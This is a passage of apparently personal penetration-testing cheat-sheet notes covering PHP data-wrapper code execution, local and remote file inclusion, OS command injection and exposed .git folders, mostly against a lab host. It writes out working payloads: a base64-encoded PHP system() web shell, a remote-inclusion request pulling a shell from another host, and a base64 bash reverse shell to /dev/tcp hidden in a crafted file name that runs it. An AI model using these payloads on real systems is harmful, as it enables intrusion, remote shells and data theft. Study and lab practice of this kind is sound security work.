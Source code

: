 execute command

```
for example: 

curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

#### LFI
found a way to download the file to the root website directory and then render that from the url
the download can create from another service or another port
```
wfuzz -c --hh=32 -z file,/usr/share/wordlists/LFI_payload.txt http://192.168.207.246:8080/view?page=FUZZ 
```

#### RFI
for example, start python server and render the file from the url  
```
curl "http://mountaindesserts.com/meteor/index.php?page=http://ip/tevers_shell.php
```

### OS Command Injection

inject command to run thing on the server or connect that server to you 

- connect to SMB share - expose NTLM v2 hash
- connect to listener - revers shell
- download files from remote server
- run os command to reveal data
- throw DBs
- captcha in a packege
https://book.hacktricks.xyz/pentesting-web/command-injection

file names as command injection
```
echo -n 'bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"' | base64
YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi40LzQ0NDQgMD4mMSI=

touch -- ';echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi40LzQ0NDQgMD4mMSI= | base64 -d | bash'
```

use $IFS when url encoding

### .git

there are several tools here to take advantage when we found git file in the website
https://github.com/internetwache/GitTools/tree/master

